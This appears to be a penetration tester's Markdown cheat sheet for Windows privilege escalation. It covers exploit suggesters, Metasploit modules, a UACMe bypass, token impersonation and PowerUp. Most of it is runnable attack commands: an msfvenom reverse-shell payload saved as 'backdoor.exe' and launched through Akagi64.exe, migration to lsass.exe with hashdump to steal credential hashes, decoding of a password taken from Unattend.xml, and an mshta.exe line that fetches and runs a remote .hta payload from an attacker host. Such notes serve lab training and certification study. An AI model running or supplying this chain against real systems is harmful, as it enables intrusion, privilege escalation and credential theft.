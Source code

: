 # Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 
- Commands:
<p>:CTRL + C
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
</p>
- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

![meterpreter getuid](./images/privesc-01.png)

![meterpreter access denied to read file](./images/privesc-02.png)  ￼￼

- load incognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

![meterpreter access denied to read file](./images/privesc-03.png)  ￼￼	   ￼

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
